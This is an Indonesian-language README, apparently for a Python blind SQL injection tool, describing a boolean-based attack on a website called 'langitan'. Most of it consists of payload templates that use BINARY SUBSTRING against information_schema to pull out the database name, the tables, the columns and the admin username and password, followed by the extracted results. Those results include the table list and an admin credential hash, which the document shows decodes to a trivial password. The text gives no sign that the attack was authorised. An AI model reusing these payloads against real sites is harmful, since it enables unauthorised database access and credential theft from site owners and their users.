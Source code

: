 
## Blind SQL Injection

Tools ini dibuat menggunakan bahasa Python untuk melakukan Blind SQL Injection terhadap website *langitan* yang diberikan.  
Tools ini melakukan brute-force terhadap setiap karakter dari hasil query SQL, memanfaatkan response dari server untuk mengetahui apakah tebakan karakter benar atau salah.

### Library yang Digunakan:
- `requests` untuk melakukan HTTP request
- `sys` untuk output karakter satu per satu ke console
- `urllib3`, `os`, `time` untuk mendukung pengiriman request dan pengelolaan sistem

---

## Teknik SQL Injection

- **Jenis:** Blind SQL Injection (Boolean-based)  
- **Metode:** Menggunakan `BINARY SUBSTRING` untuk mengekstrak informasi satu karakter per satu karakter.

### Contoh Payload:

- **Database:**  
  `'admin' AND BINARY SUBSTRING(DATABASE(), {i}, 1) = '{chr(c)}' -- -`

- **Tabel:**  
  `'admin' AND BINARY SUBSTRING((SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='db_larangan'), {i}, 1) = '{chr(c)}' -- -`

- **Kolom:**  
  `'admin' AND BINARY SUBSTRING((SELECT group_concat(column_name) FROM information_schema.columns WHERE table_schema='db_larangan' AND table_name='admin'), {i}, 1) = '{chr(c)}' -- -`

- **Data:**  
  `'admin' AND BINARY SUBSTRING((SELECT group_concat(username, ':', password) FROM admin), {i}, 1) = '{chr(c)}' -- -`

---

## Hasil yang Diperoleh

- **Nama Database:** `db_larangan`
- **Nama Tabel:**  
  `admin, agenda, album, alumni, berita, galeri, guru, kategori_link, kelas, link, mapel, materi, pengumuman, profil, siswa, siswa_kelas`
- **Kolom Tabel admin:**  
  `id_admin, username, password`
- **Data pada Tabel admin:**  
  `admin:21232f297a57a5a743894a0e4a801fc3`

